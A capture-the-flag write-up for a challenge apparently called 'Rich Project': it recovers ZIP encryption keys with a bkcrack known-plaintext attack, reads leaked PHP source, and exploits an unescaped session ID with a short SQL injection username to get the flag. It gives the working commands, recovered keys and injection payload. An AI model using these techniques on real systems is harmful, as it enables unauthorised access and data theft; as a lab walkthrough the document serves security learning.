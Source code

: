 ## Rich Project

We are given a link to a website. One of the first things we do is check for a robots.txt and we find:

```
User-agent : *
Disallow: /top_secret.zip
Disallow: /
```

We download and try to extract top\_secret.zip but it is encrypted. We can see the filenames though:

```
Archive:  top_secret.zip
 Length   Method    Size  Cmpr    Date    Time   CRC-32   Name
--------  ------  ------- ---- ---------- ----- --------  ----
       0  Stored        0   0% 01-26-2019 19:31 00000000  __SECRET__/
     133  Defl:N      112  16% 01-15-2019 15:53 d2af9447  __SECRET__/flag.php
     674  Defl:N      340  50% 01-15-2019 17:29 060ffd05  __SECRET__/pricemaker.php
       0  Stored        0   0% 01-26-2019 19:31 00000000  html/
    1506  Defl:N      720  52% 01-26-2019 19:34 47f09190  html/bbs.php
    1019  Defl:N      526  48% 01-26-2019 19:32 1e4e97d7  html/buy.php
       0  Stored        0   0% 01-26-2019 19:31 00000000  html/css/
  117418  Defl:N    19237  84% 06-12-2018 22:30 3d3550ff  html/css/bootstrap.min.css
    2538  Defl:N      915  64% 01-02-2019 11:26 142a9253  html/css/carousel.css
     767  Defl:N      291  62% 01-02-2019 14:27 46d946c8  html/css/signin.css
     201  Defl:N      128  36% 01-15-2019 16:07 27d027b0  html/dbconn.php
     233  Defl:N      116  50% 01-15-2019 15:42 33a8cd28  html/footer.php
    1903  Defl:N      713  63% 01-15-2019 16:54 92a27374  html/header.php
    2656  Defl:N      694  74% 01-15-2019 15:25 3858ab6a  html/home.php
       0  Stored        0   0% 01-26-2019 19:31 00000000  html/images/
  133008  Defl:N   132951   0% 01-02-2019 09:22 652cae0e  html/images/buy.png
   12830  Defl:N    12814   0% 01-02-2019 09:41 0d669505  html/images/JB.jpg
   40394  Defl:N    39571   2% 05-19-2010 11:36 d28f29f5  html/images/rich.jpg
    1237  Defl:N      257  79% 01-15-2019 16:54 c5b2e10d  html/index.php
     947  Defl:N      501  47% 01-15-2019 15:32 b2c38c37  html/info.php
       0  Stored        0   0% 01-26-2019 19:31 00000000  html/js/
   35652  Defl:N     9460  74% 06-12-2018 22:30 470f81a5  html/js/bootstrap.min.js
  456243  Defl:N    93095  80% 11-18-2018 02:40 7ceb90fa  html/js/canvasjs.min.js
  305436  Defl:N   104987  66% 01-04-2019 10:00 cebd2607  html/js/echarts.simple.min.js
   23861  Defl:N     8680  64% 06-12-2018 22:30 e8b790fb  html/js/holder.js
    2132  Defl:N     1021  52% 06-12-2018 22:30 d57479a3  html/js/ie-emulation-modes-warning.js
     694  Defl:N      426  39% 06-12-2018 22:30 53fa6dd1  html/js/ie10-viewport-bug-workaround.js
   95931  Defl:N    33303  65% 12-21-2016 03:17 8210596f  html/js/jquery.min.js
    1389  Defl:N      636  54% 01-15-2019 17:26 177d2eef  html/login.php
      71  Defl:N       67   6% 01-15-2019 15:30 93b3559e  html/logout.php
    3464  Defl:N     1287  63% 01-15-2019 15:45 9fc79ea3  html/market.php
     366  Defl:N      272  26% 01-15-2019 15:48 dfdc5c33  html/pay.php
     998  Defl:N      505  49% 01-15-2019 16:01 3a666b07  html/read.php
    1675  Defl:N      769  54% 01-15-2019 16:03 87a85006  html/reg.php
     922  Defl:N      525  43% 01-26-2019 20:30 7b23d9ce  html/reserv.php
      53  Defl:N       45  15% 01-10-2019 10:05 babd12ec  html/robots.txt
     977  Defl:N      498  49% 01-26-2019 19:32 4c6497e0  html/sell.php
    1235  Defl:N      567  54% 01-15-2019 15:48 8050f721  html/write.php
       0  Stored        0   0% 01-15-2019 16:55 00000000  ZIP PASS = MASTER_PW
--------          -------  ---                            -------
 1248563           466029  63%                            39 files
```

This indicates that there is a master password somewhere which will give us the zip password. But we can also see that it contains html/js/\* which likely is the same contents as the files under js/  on the live server. This allows us to attempt to break the ZIP encryption using a known plaintext attack with bkcrack ([https://github.com/kimci86/bkcrack](https://github.com/kimci86/bkcrack)). It is important that when we generate the plaintext zip file containing the unencrypted, compressed ie10-viewport-bug-workaround.js, that its compressed size matches the compressed size in top\_secret.zip. If the compressed sizes do not match, then the data is different and the attack will not work.

```
$ wget http://110.10.147.112/js/ie10-viewport-bug-workaround.js
$ wget http://110.10.147.112/top_secret.zip
$ zip pt.zip ie10-viewport-bug-workaround.js
$ src/bkcrack -C top_secret.zip -c html/js/ie10-viewport-bug-workaround.js -P pt.zip -p ie10-viewport-bug-workaround.js
Generated 4194304 Z values.
[17:53:19] Z reduction using 414 extra bytes of known plaintext
100.0 % (414 / 414)
22536 values remaining.
[17:53:22] Attack on 22536 Z values at index 13
10.6 % (2396 / 22536)
[17:53:51] Keys
c9a99496 d9c6d6fe 75590659
```

Now we can decrypt the files in the ZIP file:

```
$ src/bkcrack -C top_secret.zip -c __SECRET__/flag.php -k c9a99496 d9c6d6fe 75590659 -d flag.php
[17:56:45] Keys
c9a99496 d9c6d6fe 75590659
Wrote deciphered text.
$ ../tools/inflate.py < flag.php
<?php
	$key= "D0_N0T_RE1E@5E_0THER5";
	$FLAG = "##########"
	if($_GET['key'] === $key)
		die($FLAG);
	else
		die("who you are?");
?>
```

We analyzed the other PHP files in the ZIP. We can see that pay.php will include flag.php if we have enouch gold:

```
<div class="container" style="margin-top:120px">
<?php
	if(!isset($_SESSION['ID']))
		die('login first');
	$conn = dbconn('tradedata');
	$q = "SELECT * FROM user_wallet where id='{$_SESSION['ID']}'";
	$res = mysqli_query($conn,$q);
	$row = mysqli_fetch_array($res);
	if($row['cash'] <999999999)
		die("Not enough gold");
	else
		include '../__SECRET__/flag.php';
?>
```

One way to easily have enough gold is if we can inject into the SQL query using the ID field in the session. As we can see from login.php, the ID field comes directly from the database and is not escaped:

```
...
		$q = "SELECT * FROM users where id='{$ID}' and pw='{$PW}' and ac='{$AC}'";
		$res = mysqli_query($conn,$q);
		$row = mysqli_fetch_array($res);
		if($row != NULL)
		{
			$_SESSION['ID'] = strtolower($row['id']);
			header("Location: ./?p=main");
			die("");
		}
...
```

Unfortunately, the id field in the database is quite small (maybe 32 bytes), so our SQL injection needs to also be small. We ended up with the following query:

```
azz' union select 1,1e10,1,1,1 #
```

After registering a user with this ID, logging out, and login with this ID, we can visit /pay.php with the correct key parameter to get the flag.

![pay screenshot](pay.png)
